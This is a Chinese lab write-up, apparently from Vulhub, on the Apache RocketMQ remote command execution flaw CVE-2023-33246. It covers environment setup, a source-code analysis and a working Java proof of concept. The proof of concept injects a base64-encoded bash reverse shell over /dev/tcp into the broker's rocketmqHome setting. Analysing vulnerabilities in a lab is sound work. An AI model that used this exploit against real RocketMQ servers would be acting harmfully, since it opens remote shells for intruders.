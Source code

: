 # Apache RocketMQ 远程命令执行漏洞 CVE-2023-33246

## 漏洞描述

Apache RocketMQ是一个分布式消息平台。

在其5.1.0版本及以前存在一处命令执行漏洞，攻击者通过向其更新配置相关的功能发送指令即可更新任意配置项，并通过配置项中存在的命令注入功能执行任意命令。

参考链接：

- https://lists.apache.org/thread/1s8j2c8kogthtpv3060yddk03zq0pxyp
- https://github.com/I5N0rth/CVE-2023-33246

## 环境搭建

Vulhub 使用 `docker compose` 或 `docker-compose` 启动：

```
docker compose up -d
```

## 漏洞复现

使用 `IDEA` 或 `Eclipse` 等 `IDE` 新建一个 `Maven` 项目，导入依赖：

```java
<dependencies>
    <!-- https://mvnrepository.com/artifact/org.apache.rocketmq/rocketmq-tools -->
    <dependency>
        <groupId>org.apache.rocketmq</groupId>
        <artifactId>rocketmq-tools</artifactId>
        <version>5.1.0</version>
    </dependency>
</dependencies>
```

PoC 如下：

```java
import org.apache.rocketmq.tools.admin.DefaultMQAdminExt;

import java.util.Base64;
import java.util.Properties;

public class Main {
    private static String getCmd(String ip, String port) {
        String cmd = "bash -i >& /dev/tcp/" + ip + "/" + port + " 0>&1";
        String cmdBase = Base64.getEncoder().encodeToString(cmd.getBytes());
        return "-c $@|sh . echo echo \"" + cmdBase + "\"|base64 -d|bash -i;";
    }

    public static void main(String[] args) throws Exception {
        String targetHost = "your-ip";
        String targetPort = "10911";

        String shellHost = "your-ip";
        String shellPort = "12345";

        String targetAddr = String.format("%s:%s",targetHost,targetPort);
        Properties props = new Properties();
        props.setProperty("rocketmqHome", getCmd(shellHost,shellPort));
        props.setProperty("filterServerNums", "1");
        DefaultMQAdminExt admin = new DefaultMQAdminExt();
        admin.setNamesrvAddr("0.0.0.0:12345");
        admin.start();
        admin.updateBrokerConfig(targetAddr, props);
        Properties brokerConfig = admin.getBrokerConfig(targetAddr);
        System.out.println(brokerConfig.getProperty("rocketmqHome"));
        System.out.println(brokerConfig.getProperty("filterServerNums"));
        admin.shutdown();
    }
}
```

在控制台成功输出新的配置后，请等待30秒左右，将会收到反连请求。

![image-20230605095851218](images/image-20230605095851218.png)

## 漏洞分析

PoC 对 `filterServerNums` 属性和 `rocketmqHome` 属性进行了修改。

为什么要修改`filterServerNums`属性：如果配置的`filterServerNums`为0，计算得出的`more`也会是0，因此无法进入`callShell`方法执行命令。

```
public void createFilterServer() {
    int more =
        this.brokerController.getBrokerConfig().getFilterServerNums() -
        this.filterServerTable.size();
    String cmd = this.buildStartCommand();
    for (int i = 0; i < more; i++) {
        FilterServerUtil.callShell(cmd, log);
    }
}

public static void callShell(final String shellString, final Logger log) {
    Process process = null;
    try {
        String[] cmdArray = splitShellString(shellString);
        process = Runtime.getRuntime().exec(cmdArray);
        process.waitFor();
        log.info("CallShell: <{}> OK", shellString);
    } catch (Throwable e) {
        log.error("CallShell: readLine IOException, {}", shellString, e);
    } finally {
        if (null != process)
            process.destroy();
    }
}
```

为什么要修改`rocketmqHome`属性：在构建命令的时候，最终会调用`splitShellString`方法按照空格对参数进行分割，所以不可以是`NamesrvAddr`参数，只能是开头的`rocketmqHome`参数，但是由于参数分割规则，所以需要更严格的命令和巧妙的技巧才可以执行。

```
private String buildStartCommand() {
    String config = "";
    if (BrokerStartup.CONFIG_FILE_HELPER.getFile() != null) {
        config = String.format("-c %s",
        BrokerStartup.CONFIG_FILE_HELPER.getFile());
    }
    if (this.brokerController.getBrokerConfig().getNamesrvAddr() != null) {
        config += String.format(" -n %s",
        this.brokerController.getBrokerConfig().getNamesrvAddr());
    }
    if (NetworkUtil.isWindowsPlatform()) {
        return String.format("start /b %s\\bin\\mqfiltersrv.exe %s",
        this.brokerController.getBrokerConfig().getRocketmqHome(),
        config);
    } else {
        return String.format("sh %s/bin/startfsrv.sh %s",
        this.brokerController.getBrokerConfig().getRocketmqHome(),
        config);
    }
}
```